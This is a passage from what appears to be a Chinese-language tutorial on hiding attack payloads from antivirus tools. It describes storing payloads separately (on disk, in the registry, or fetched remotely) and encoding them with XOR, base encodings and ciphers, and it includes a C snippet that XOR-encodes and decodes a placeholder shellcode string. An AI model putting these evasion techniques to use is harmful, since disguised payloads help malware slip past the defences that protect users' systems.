 ### 总结

​ 虽然说这里看着技术很多，但是我们只是需要实现我们的目的。那么我在这里继续举例一下都是些什么。

**对于是否是分离 payload，无非从代码层面就是多了一些 payload 的读取，本地读取，注册表写入读取，远程拉取等等，只是形式而已。**

**而对于 payload，也就是攻击载荷相关的内容。也是采取了混淆，编码，变形等。**

## 二。载荷编码加密&对抗&功能

​ 那么对于 payload 我们一般就是采取加密，编码，混淆。无论什么语言。例如：xor，base 家族，现代密码（aes，des，rsa。。），古典密码等等。这里举几个例子。

### 1.异或编码（c 语言）

​ 这里是把 shellcode 进行 xor 编码，然后可以保存到文件中，也可以按照自己的方式操作。

```plain
unsigned char buf[] = "shellcode"
    int password = 1025;

    unsigned char enShellCode[50000];
    unsigned char deShellCode[50000];

    int nLen = sizeof(buf) - 1;

    printf("%d\n加密后:\n", nLen);
    for (int i = 0; i < nLen; i++)
    {
        enShellCode[i] = buf[i] ^ password;
        printf("\\x%x", enShellCode[i]);
    }

    FILE* fp;
    unsigned char buffer[1024];
    int bytesRead;

    fp = fopen("1.txt", "rb");
    if (fp == NULL) {
        printf("Failed to open file");
        exit(1);
    }

    bytesRead = fread(buffer, sizeof(unsigned char), sizeof(buffer), fp);
    if (bytesRead == 0) {
        printf("Failed to read file");
        exit(EXIT_FAILURE);
    }

    for (int i = 0; i < bytesRead; i++) {
        printf("\\x%x", buffer[i]);
    }
    printf("");

    fclose(fp);


    printf("\n解密后:\n");
    for (int i = 0; i < nLen; i++)
    {
        deShellCode[i] = enShellCode[i] ^ password;
        printf("\\x%x", deShellCode[i]);
    }
```
